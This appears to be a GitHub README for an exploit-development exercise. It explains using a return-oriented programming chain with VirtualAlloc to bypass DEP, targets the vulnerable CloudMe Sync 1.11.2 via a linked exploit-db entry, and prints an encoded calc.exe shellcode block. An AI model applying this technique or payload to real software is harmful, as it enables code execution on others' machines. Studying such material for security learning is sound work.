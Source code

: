 # ROPme
Bypass Data Execution Prevention (DEP) Using VirtualAlloc in a ROP (Return-Oriented Programming) chains is a common technique to bypass DEP (Data Execution Prevention) by allocating executable memory in a process. The idea is to use a sequence of gadgets (short sequences of instructions ending in a return) to call VirtualAlloc or a similar function and allocate memory with PAGE_EXECUTE_READWRITE permissions. This allocated memory can then be used to execute shellcode

![image](https://github.com/user-attachments/assets/ba318158-d6c6-462b-94a8-83b803af2827)



## i start from [here](https://www.exploit-db.com/exploits/46250)
## [CloudMe Sync 1.11.2](https://www.exploit-db.com/apps/f0534b12cd51fefd44002862918801ab-CloudMe_1112.exe) vulnerable version
## --> i use :
### - [WINdbg](https://learn.microsoft.com/en-gb/windows-hardware/drivers/debugger)
### - [immunity Debugger](https://debugger.immunityinc.com/)
### - IDA pro 
### - SublimeText 
### - IDLE from python 
### - [VirtualAlloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) function (memoryapi.h)
### - and finaly the calculator shellcode :
```sh

# Shellcode calc.exe
shellcode = ""
shellcode += "\xdb\xde\xd9\x74\x24\xf4\x58\x2b\xc9\xb1\x31\xba\xef"
shellcode += "\xc3\xbd\x59\x83\xc0\x04\x31\x50\x14\x03\x50\xfb\x21"
shellcode += "\x48\xa5\xeb\x24\xb3\x56\xeb\x48\x3d\xb3\xda\x48\x59"
shellcode += "\xb7\x4c\x79\x29\x95\x60\xf2\x7f\x0e\xf3\x76\xa8\x21"
shellcode += "\xb4\x3d\x8e\x0c\x45\x6d\xf2\x0f\xc5\x6c\x27\xf0\xf4"
shellcode += "\xbe\x3a\xf1\x31\xa2\xb7\xa3\xea\xa8\x6a\x54\x9f\xe5"
shellcode += "\xb6\xdf\xd3\xe8\xbe\x3c\xa3\x0b\xee\x92\xb8\x55\x30"
shellcode += "\x14\x6d\xee\x79\x0e\x72\xcb\x30\xa5\x40\xa7\xc2\x6f"
shellcode += "\x99\x48\x68\x4e\x16\xbb\x70\x96\x90\x24\x07\xee\xe3"
shellcode += "\xd9\x10\x35\x9e\x05\x94\xae\x38\xcd\x0e\x0b\xb9\x02"
shellcode += "\xc8\xd8\xb5\xef\x9e\x87\xd9\xee\x73\xbc\xe5\x7b\x72"
shellcode += "\x13\x6c\x3f\x51\xb7\x35\x9b\xf8\xee\x93\x4a\x04\xf0"
shellcode += "\x7c\x32\xa0\x7a\x90\x27\xd9\x20\xfe\xb6\x6f\x5f\x4c"
shellcode += "\xb8\x6f\x60\xe0\xd1\x5e\xeb\x6f\xa5\x5e\x3e\xd4\x59"
shellcode += "\x15\x63\x7c\xf2\xf0\xf1\x3d\x9f\x02\x2c\x01\xa6\x80"
shellcode += "\xc5\xf9\x5d\x98\xaf\xfc\x1a\x1e\x43\x8c\x33\xcb\x63"
shellcode += "\x23\x33\xde\x07\xa2\xa7\x82\xe9\x41\x40\x20\xf6"
```
